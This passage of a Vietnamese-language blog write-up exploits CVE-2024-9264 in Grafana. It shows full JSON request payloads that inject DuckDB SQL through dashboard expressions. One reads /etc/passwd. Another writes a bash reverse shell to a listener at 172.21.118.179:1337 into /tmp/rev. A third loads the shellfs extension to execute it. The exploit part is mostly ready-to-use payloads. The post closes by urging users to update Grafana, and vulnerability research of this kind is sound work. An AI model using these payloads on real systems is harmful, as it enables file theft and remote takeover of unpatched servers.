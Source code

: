 ### Step 2: Find the API

Tiến hành tạo một custom dashboard với Math hoặc Reduce expression, intercept nó với BurpSuite và ném sang Repeater để chỉnh sửa các trường trong JSON theo mong muốn

![image]({{ "/assets/img/2025-06-08-CVE-2024-9264/image4.png" | relative_url }})

![image]({{ "/assets/img/2025-06-08-CVE-2024-9264/image5.png" | relative_url }})

### Step 3: Exploit

Với những thông tin mình đã biết từ trước, việc mình cần làm giờ là sửa `type` trong JSON thành `sql`, với giá trị của `expressions` khi này là câu query mình muốn thực thi. Vì nó chưa được validate/sanitize chính xác nên gần như làm gì cũng được, chỉ cần phù hợp với syntax của DuckDB

#### LFI

Để khai thác LFI, ta sẽ tận dụng `read_csv_auto` hàm này trả về nội dung file dưới dạng CSV, với payload JSON đầy đủ sẽ trông như thế này:

```
{"queries":[{"datasource":{"type":"__expr__","uid":"__expr__","name":"Expression"},"refId":"B","type":"sql","hide":false,"expression":"SELECT * FROM read_csv_auto(/etc/passwd);","window":""}],"from":"1752557182125","to":"1752578782125"}
```

![image]({{ "/assets/img/2025-06-08-CVE-2024-9264/image6.png" | relative_url }})

#### RCE

Để có thể thực thi mã từ xa, với target ở đây là rev shell thành công. Mình set up listener tại 172.21.118.179, đây là IP của Kali-kex đang chờ kết nối netcat trên port 1337.

Trước tiên ta cần tạo 1 file với nội dung của câu lệnh rev shell, mình tạm ném nó vào `/tmp/rev`

```
{"queries":[{"refId":"C","datasource":{"type":"__expr__","uid":"__expr__","name":"Expression"},"type":"sql","hide":false,"expression":"SELECT 1;COPY (SELECT 'bash -i >& /dev/tcp/172.21.118.179/1337 0>&1') TO '/tmp/rev';","window":""}],"from":"1752571175798","to":"1752592775798"}
```

Tiếp tục tận dụng `read_csv` để thực thi file đã lưu tại `/tmp/rev` (bản chất theo mình tìm hiểu nó sử dụng popen, một hàm nguy hiểm để đọc file):

```
{"queries":[{"refId":"C","datasource":{"type":"__expr__","uid":"__expr__","name":"Expression"},"type":"sql","hide":false,"expression":"SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/rev |');","window":""}],"from":"1752571175798","to":"1752592775798"}
```

![image]({{ "/assets/img/2025-06-08-CVE-2024-9264/image7.png" | relative_url }})

## References

Vì đây là một lỗ hổng đã có bản vá, người dùng có thể cập nhật lên các phiên bản mới nhất của `Grafana` để tránh khỏi những tình huống không đáng có!

